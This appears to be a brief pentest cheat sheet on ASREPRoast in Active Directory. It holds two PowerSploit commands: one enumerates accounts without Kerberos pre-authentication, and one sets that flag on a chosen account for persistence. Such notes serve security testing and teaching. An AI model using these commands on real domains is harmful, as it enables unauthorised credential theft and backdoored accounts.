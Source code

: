 # PowerSploit

## 01 - Enumerate ASREPRoast Users

`PS C:\> Get-DomainUser -PreauthNotRequired -Verbose`

## 02 - Persistence

`PS C:\> Set-DomainObject -Identity <username> -XOR @{useraccountcontrol=4194304} -Verbose`

---
## References

- [Hacktricks Active Directory Methodology ASREPRoast](https://book.hacktricks.xyz/windows/active-directory-methodology/asreproast)